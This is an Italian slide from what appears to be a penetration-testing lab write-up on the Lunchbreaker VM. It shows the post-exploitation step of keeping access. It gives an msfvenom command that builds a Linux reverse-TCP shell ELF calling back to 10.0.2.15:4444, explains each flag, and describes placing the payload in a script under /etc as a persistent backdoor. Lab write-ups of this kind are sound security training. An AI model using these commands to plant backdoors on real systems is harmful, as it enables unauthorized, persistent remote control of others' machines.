

# PostExploitation Maintaining Access
Installiamo una backdoor persistente per poter accedere più facilmente alla macchina Lunchbreaker, senza dover andare a ripetere l’intero processo.
Attraverso l’utilizzo del tool msfvenom, generiamo il payload di una reverse shell con il comando:
msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf -o shell.elf
p: specifica il payload da utilizzare;
LHOST: indirizzo IP macchina host;
LPORT: porta su cui ci si mette in ascolto;
f: formato del file di output;
o: nome del file di output.
Nella macchina target creiamo, nella directory /etc, uno script in.sh contenente il payload.
22